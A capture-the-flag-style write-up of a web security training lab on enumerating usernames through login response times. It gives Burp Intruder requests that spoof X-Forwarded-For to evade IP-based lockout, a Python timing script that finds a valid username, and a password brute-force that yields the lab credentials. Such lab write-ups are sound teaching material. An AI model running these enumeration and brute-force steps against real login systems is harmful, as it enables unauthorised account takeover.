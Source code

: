 # Lab: Username enumeration via response timing

## Lab

This lab is vulnerable to username enumeration using its response times. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page. 

## Hint

To add to the challenge, the lab also implements a form of IP-based brute-force protection. However, this can be easily bypassed by manipulating HTTP request headers. 

## Solution

To bypass IP-based brute-force protection in each request we change the IP address of the each request by `X-Forwarded-For` header.

Maybe this application only check whether password is correct if the username is balid. This extra step can cause increase in response time. This extra time is usually small and very difficult to see. To increase that time, we can increase the length of the password that the application takes longer to handle requests.

To confirm that we try login with or credentials: `wiener:peter` the response status is 302 and response time approximately 700 milliseconds

Let try login with wrong password: `wiener:a` the response status is 200 and response time approximately 700 milliseconds.

Now try login with wrong password but this time increase password length: `wiener: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa` the response status is 200 and response time approximately 3000 milliseconds

So that,Depending on the response time we can determine that the username is valid and or not.

Using the above to brute force the username with Intruder in Burp Suite. Remember that we must add the `X-Forwarded-For` header to bypass the IP-based brute-force protection.
```HTTP
POST /login HTTP/1.1
Host: 0a3200e603036ed7c074693600d90055.web-security-academy.net
Cookie: session=rSHBUVybmjUUwO2Gp0xDyfziTFIUtqXR
Content-Length: 507
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a3200e603036ed7c074693600d90055.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3200e603036ed7c074693600d90055.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
X-Forwarded-For: 118.71.204.§229§

username=§wiener§&password=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

In Intruder we select the attack type is Pitchfork. 
- With payload set 1 we set payload type is Numbers from 1 to 100 (depend on the number of usernames we brute force in payload set 2) with step is 1. 
- With payload set 2 we set payload type is Simple list and load file contain the list usernames is provided from the lab.

After start attack we check the response time.The valid username, which returns response time approximately 3000 milliseconds.

Based on such above idea we can use python to make the following script to find out the valid username.

```python
import requests
import time
url = 'https://0a27002a04cee09cc0370c6300cb0095.web-security-academy.net/login'
file = open('../shortlist/usernames.txt','r')
username = file.readline().strip()

for i in range(101):
    a = time.time()
    x = requests.post(url, data={'username': username, 'password': 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'}, headers={'X-Forwarded-For': '118.71.204.'+ str(i)})
    if (time.time() - a > 3 ):
        print(username)
        break
    username = file.readline().strip()
```

After found out the username is `al`, next step is brute force password. the valid password, which returns status code is 302.

In tab Intruder back to Positions page modify `username` to `al` and insert new password marker into `password`.
```HTTP
POST /login HTTP/1.1
Host: 0a3200e603036ed7c074693600d90055.web-security-academy.net
Cookie: session=rSHBUVybmjUUwO2Gp0xDyfziTFIUtqXR
Content-Length: 507
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a3200e603036ed7c074693600d90055.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3200e603036ed7c074693600d90055.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
X-Forwarded-For: 118.71.204.§229§

username=al&password=§a§
```
Now switch to Payload page.
- Keep payload set 1, because we still need that to bypass IP-based brute-force protection
- With payload set 2 we clear the current payload and load file contain the list passwords is provided from lab.

Start and find the request, which returns 302 status code. The password is sent in this request is the valid password (`jessica`).

Login with `al:jessica` to solve this lab.